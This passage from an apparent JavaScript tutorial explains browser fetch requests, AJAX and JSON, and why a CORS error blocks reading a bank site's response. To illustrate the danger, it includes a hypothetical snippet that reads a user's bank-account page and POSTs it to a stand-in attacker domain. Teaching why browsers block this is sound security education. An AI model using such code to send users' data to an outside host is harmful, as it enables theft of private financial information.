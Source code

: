 ### Making HTTP requests
Browser JavaScript would be pretty boring if all you could do was manipulate the page. What makes things really interesting is the ability to make HTTP requests in the context of an already loaded web page. This enables us to load external information, then use what we already learned to make that information appear on the page.

Originally, this was accomplished with a contraption called `XMLHttpRequest` and the API for it was less than stellar. Modern browsers offer a much better alternative using the globally available `fetch` function. As a bonus, `fetch` uses Promises to give back its results, allowing us to write much nicer code.

The process of fetching external information and updating the page as a result is often called AJAX, which stands for "Asynchronous JavaScript And XML". We haven't really looked at XML. It turns out to be quite a heavy data format, both in terms of its size and its parsing. Many new APIs prefer to use the JSON format instead. Since JSON is native to JavaScript, this is great for us!

Let's look at how we can use `fetch`, at first only to make an HTTP request, and then eventually to build something with it. Let's start by changing the code of `app.js` to the following:

```javascript
fetch('http://www.rbcroyalbank.com')
.then(function(response) {
  return response.text(); // Parsing the response as text returns another Promise so we chain it
})
.then(function(textResponse) {
  console.log(textResponse);
});
```

Try refreshing the browser and look at your Console tab.

![CORS error](cors-error.png)

What's that? An error! What the browser is telling us here is that we're not allowed to see the response from the Royal Bank site. Since this request is running in the context of our web browser, this makes a LOT of sense. Because such a request would have access to our cookies, seeing the response could allow us to retrieve some sensitive information from anyone who loads up our web page in *their* browser.

Imagine that we were allowed to see the content of this 3rd party site. Here's a hand-waving example of what we could do:

```javascript
fetch('https://www.onlinebank.com/accounts')
.then(function(response) {
  return response.text();
})
.then(function(textResponse) {
  // We now have an HTML page with the user's bank accounts! Let's send it to ourselves!!
  fetch('http://www.evil-domain.com/bank-accounts', {
    method: 'POST',
    body: textResponse
  });
});
```
